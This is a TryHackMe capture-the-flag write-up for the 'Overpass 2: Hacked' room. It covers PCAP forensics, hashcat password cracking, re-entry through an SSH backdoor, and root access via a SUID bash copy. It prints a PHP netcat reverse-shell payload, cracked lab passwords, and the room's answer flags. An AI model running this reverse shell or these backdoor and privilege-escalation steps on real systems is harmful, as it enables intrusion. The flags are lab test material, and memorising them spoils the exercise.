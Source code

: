 # Overpass 2: Hacked

* [TryHackMe: Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked)

The flags are structured to basically walk us through this room.

## Forensics: Analyze the PCAP

I’ve not actually used Wireshark outside of the TryHackMe: Wireshark 101 “room” (and a few short digressions in other rooms), so I’m honestly a little worried about my abilities here…

Filtering the PCAP file for HTTP requests reveals a single POST from 192.168.179.145 to http://192.168.170.159/development/upload.php. A subsequent request from 192.168.179.145 pulls the directory listing of /development/uploads/, and then GETs /development/uploads/payload.php. This suggests that 192.168.179.145 is the ”attacker” and 192.168.179.145 is the target system.

FLAG 1: What was the URL of the page they used to upload a reverse shell? — /development/

We can save off this POST request to get at the uploaded payload.php file, which turns out to have the contents:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

FLAG 2: What payload did the attacker use to gain access? — `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

This is popping a simple reverse shell through netcat that connects back to 192.168.170.145:4242, which would seem to confirm that this was the machine used by the attacker.

This means that penetration occurs when this file is requested in packet 27.

Looking at subsequent TCP packets, we can see what the attacker typed in the packets going from 192.168.170.145 → 192.168.170.159, and the responses in the packets going from 192.168.170.159 → 192.168.170.145. Requests/Responses coming through netcat use the TCP PSH flag, so we can filter by `tcp.port == 4242 and tcp.flags.push` to zoom in on this conversation.

The attacker eventually issues `su james` to elevate privileges  (packet 71), and a few packets down we can see `james`’s password.

FLAG 3: What password did the attacker use to privesc? — `whenevernoteartinstant`

In packet 112 the attacker cats /etc/shadow, and we get a full dump in packet 114. They then issue `git clone https://github.com/NinjaJc01/ssh-backdoor`, generate an SSH private key, and switch to the included `backdoor` binary, at which point we lose the thread.

FLAG 4: How did the attacker establish persistence? — https://github.com/NinjaJc01/ssh-backdoor

Returning to packet 114, we can use Copy > Copy Bytes as Printable Text to pull the contents of /etc/shadow (+ a little garbage).  After a little cleanup, we have 5 users with passwords (including `james`, which we know already).

We extract the hashes and then throw Hashcat at this using the suggested “fasttrack” wordlist.

```bash
hashcat -m 1800 \
        -O hashes.txt /usr/share/wordlists/fasttrack.txt
```

Four out of the five passwords turn out to be crackable:

```
paradox:secuirty3
szymex:abcd123
bee:secret12
muirland:1qaz2wsx
```

This ironically *doesn’t* include `james`!

FLAG 5: How many of the system passwords were crackable? — 4

## Research: Analyze the Code

It turns out that https://github.com/NinjaJc01/ssh-backdoor is a real thing, with the code itself living in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go.

FLAG 6: What's the default hash for the backdoor? — `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

FLAG 7: What's the hardcoded salt for the backdoor? — `1c362db832f3f864c8c2fe05f2002a05`

The hashPassword() function here takes the SHA-512 hash of the provided password + the salt. The default has is overridden using the `-a` flag. We can see that the attacker used this flag when the `backdoor` was called in packet 3479.

```bash
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

FLAG 8: What was the hash that the attacker used? — `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

We can use Hashcat to again crack this.

```bash
hashcat \
	-m 1710 \
	-O 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 \
	   ~/.local/share/red-team/wordlists/rockyou.txt
```

FLAG 9: What's the password? — `november16`

## Attack: Get Back In!

The last bit of this CTF uses a server, which for this run is at 10.10.114.161. Just visiting that page gives us our first flag.

FLAG 10: What message did the attacker leave as a heading when they defaced the website? — H4ck3d by CooctusClan

We’ll get back in using the backdoor that the attacker set up. From the backdoor code we know that the SSH server is running on port 2222, and there don’t seem to be any user checks. So…

```bash
env -u SSH_AUTH_SOCK -u SSH_AGENT_PID \
	ssh -p 2222 user@10.10.114.161
```

…lets us in as expected (with the password of `november16`).

The user flag is in /home/james/user.txt.

FLAG 11: What's the user flag? — `thm{d119b4fa8c497ddb0525f7ad200e6567}`

Unfortunately, none of the passwords we cracked earlier work anymore. After checking a couple of possible exploits to get around this, I decided just to see what SUID binaries were on the system (figuring that I’d check them against GTFOBins).

```bash
find / -type f -perm -u+s -exec ls -l "{}" \;
```

This turned up an unusual file — /home/james/.suid_bash.  Could this be… an SUID copy of Bash? Indeed it is!

```bash
/home/james/.suid_bash -p # Root shell!
```

The root flag is then in /root/root.txt.

FLAG 12: What's the root flag? — `thm{d53b2684f169360bb9606c333873144d}`

ELAPSED TIME: 1 h 43 min

## References

* [TryHackMe: Wireshark 101](tryhackme-wireshark-101.md)
* [Using “netcat”](netcat.md)
* [Using Hashcat](hashcat.md)
* [ssh-backdoor / main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)
* [Exploiting Bash](exploiting-bash.md)
* [Exploiting ViM](exploiting-vim.md)
* [GTFOBins](https://gtfobins.github.io/)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 14, 2021
